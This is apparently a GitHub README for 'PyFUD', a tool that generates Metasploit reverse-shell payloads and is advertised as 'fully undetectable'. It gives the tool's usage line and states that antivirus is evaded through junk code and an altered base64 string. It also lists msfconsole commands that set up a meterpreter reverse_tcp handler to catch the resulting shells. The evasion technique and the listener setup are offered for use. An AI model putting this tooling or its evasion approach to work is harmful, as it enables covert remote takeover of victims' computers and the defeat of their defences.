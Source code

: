 # PyFUD
fully Undetectable payload generator for metasploit  
Usage:
`pyfud.py --host HOST --output OUTPUT file name --port PORT`  
the payload is made fully Undetectable by adding some junk code into the main program and some changes are made on the base64 string
tested on windows 10  
metasploit setup:  
`
msfconsole
`
  
`
use multi/handler
`
  
`
set payload python/meterpreter/reverse_tcp
`
  
`
set lport {port used to make payload}
`
  
`
set lhost {your local ip adress or just 0.0.0.0}
`
  
`
run
`
